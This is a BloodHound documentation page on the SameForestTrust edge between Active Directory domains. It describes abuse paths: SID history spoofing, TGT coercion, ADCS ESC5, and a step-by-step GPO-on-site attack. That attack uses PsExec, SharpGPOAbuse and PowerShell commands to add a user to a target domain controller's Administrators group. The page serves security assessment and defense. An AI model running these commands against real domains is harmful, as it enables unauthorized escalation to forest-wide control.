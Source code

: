 ---
title: SameForestTrust
description: The SameForestTrust edge represents a trust relationship between two domains within the same AD forest. 
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

In this relationship, the source node domain has a same-forest (intraforest) trust to the destination node domain, allowing principals (users and computers) from the destination domain to access resources in the source domain.

Because the domains are part of the same forest, they inherently trust each other, granting implicit control over resources across domains.

## Abuse Info

An attacker with control over any domain within the forest can escalate their privileges to compromise other domains through multiple methods.

### **Spoof SID history**

An attacker can spoof the SID history of a principal in the target domain, tricking the target domain into treating the attacker as a privileged user.

See the [SpoofSIDHistory](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/spoof-sid-histroy) edge for more information.

This attack fails if SID filtering (quarantine) is enabled on the trust relationship in the opposite direction of the attack. The SID filtering blocks SIDs belonging to any other domain than the attacker-controlled domain. However, enabling this setting is rare and generally not recommended.

### **Coerce to TGT**

An attacker can coerce a privileged computer (e.g., a DC) in the target domain to authenticate to an attacker-controlled computer configured with unconstrained delegation. This provides the attacker with a Kerberos TGT for the coerced computer.

See the [CoerceToTGT](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/coerce-to-tgt) edge for more information.

The attack fails if SID filtering (quarantine) is enabled, as this prevents TGTs from being sent across the trust boundary. Again, this setting is rarely configured.

### **ADCS ESC5**

The Configuration Naming Context (NC) is a forest-wide partition writable by any DC within the forest. Most Active Directory Certificate Services (ADCS) configurations are stored in the Configuration NC. An attacker can abuse a DC to modify ADCS configurations to enable an ADCS domain escalation opportunity that compromises the entire forest.

**Attack Steps:**

1. Obtain a SYSTEM session on a DC in the attacker-controlled domain
2. Create a certificate template allowing ESC1 abuse
3. Publish the certificate template to an enterprise CA
4. Enroll the certificate as a privileged user in the target domain
5. Authenticate as the privileged user in the target domain using the certificate

See this blog post for further details: [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c).

If ADCS is not installed: An attacker can install ADCS and exploit it, as detailed in the blog post: [Escalating from child domain’s admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/).

### **GPO linked on Site**

AD sites are stored in the forest-wide Configuration NC partition, writable by any DC within the forest. An attacker with SYSTEM access to a DC can link a malicious GPO to the site of any DC in the forest.

**Step 1: Obtain a SYSTEM session on a DC in the attacker-controlled domain**
Use PsExec to start a PowerShell terminal as SYSTEM on the DC:

```powershell
PsExec64.exe -s -i -accepteula powershell
```

**Step 2: Create a GPO**
Use the GroupPolicy module of RSAT to create the new GPO:

```powershell
New-GPO -Name "MyGPO"
```

**Step 3: Add the compromising setting to the GPO**
Use SharpGPOAbuse to add a scheduled task:

```powershell
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "MyTask" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c net localgroup Administrators /Add DUMPSTER\tim" --GPOName "MyGPO"
```

**Step 4: Identify a target DC and its site**
Use the ActiveDirectory module of RSAT to query for DCs in the target domain:

```powershell
Get-ADDomainController -server bastion.local | select Name,Site
```

Look up the site DistinguishedName:

```powershell
Get-ADReplicationSite Default-First-Site-Name | select DistinguishedName
```

**Step 5: Set the GPO permissions**

This step is important to avoid applying the GPO to all computers connected to the site. Use the GroupPolicy module of RSAT to modify the permissions such that Authenticated Users can read the object but only the targeted computer applies the GPO settings:

```powershell
$GPO = Get-GPO -Name "MyGPO"
$GPO | Set-GPPermissions -PermissionLevel GpoRead -TargetName "Authenticated Users" -TargetType Group -Replace
$GPO | Set-GPPermissions -PermissionLevel GpoApply -TargetName "BASTION\\bldc01" -TargetType Computer
```

**Step 6: Link the GPO to the site**
Use the GroupPolicy module of RSAT to link the GPO to the site:

```powershell
New-GPLink -Name "MyGPO" -Target "CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=bastion,DC=local" -Server dc01.dumpster.fire
```

Note that you must specify the server to be the DC where you are running the command, as the command defaults to execute the change on a root domain DC where the compromised DC does not have the permissions to link the GPO.

Wait until replication has happened and the GPO has applied on the target DC, and log in with Administrators access on the compromised DC. Replication within the same site happens within 15 seconds but runs on 3 hour schedule by default across sites. GPOs are applied on a 90-120 min interval by default.

## Opsec Considerations

There is no OPSEC associated with this edge.

## Edge Schema

Source: [Domain](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/domain)   
Destination: [Domain](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/domain)   
Traversable: **Yes**  

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1134.005: Access Token Manipulation: SID-History Injection](https://attack.mitre.org/techniques/T1134/005/)
* [T1187: Forced Authentication](https://attack.mitre.org/techniques/T1187/)
* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
* [T1558: Steal or Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/)
* [T1550.003: Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/)
* [T1484.001: Domain or Tenant Policy Modification: Group Policy Modification](https://attack.mitre.org/techniques/T1484/001/)

Abuse info references:

* [Microsoft AD Trust Technical Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755321(v=ws.10))
* [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c)
* [Escalating from child domain’s admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/)
* [SID filter as security boundary between domains? (Part 4)](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research)
* [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
